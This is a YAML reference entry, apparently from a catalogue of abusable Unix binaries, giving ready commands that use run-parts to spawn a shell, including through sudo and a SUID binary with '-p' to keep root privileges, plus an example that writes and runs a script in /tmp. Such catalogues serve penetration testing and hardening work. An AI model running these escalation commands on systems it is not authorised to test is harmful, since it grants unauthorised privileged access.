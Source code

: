 ```yaml
---
functions:
  shell:
    - code: run-parts --new-session --regex '^sh$' /bin
  sudo:
    - code: sudo run-parts --new-session --regex '^sh$' /bin
  suid:
    - code: ./run-parts --new-session --regex '^sh$' /bin --arg='-p'
  command:
    - description: Execute all executable scripts in a specified directory. In this case, the command runs all scripts in `/tmp/run-parts/`.
      code: |
        mkdir -p /tmp/run-parts/
        printf '#!/bin/sh\n/bin/sh -c "/bin/id > /tmp/id.out"\n' > /tmp/run-parts/id && chmod +x /tmp/run-parts/id
        run-parts /tmp/run-parts
---
```

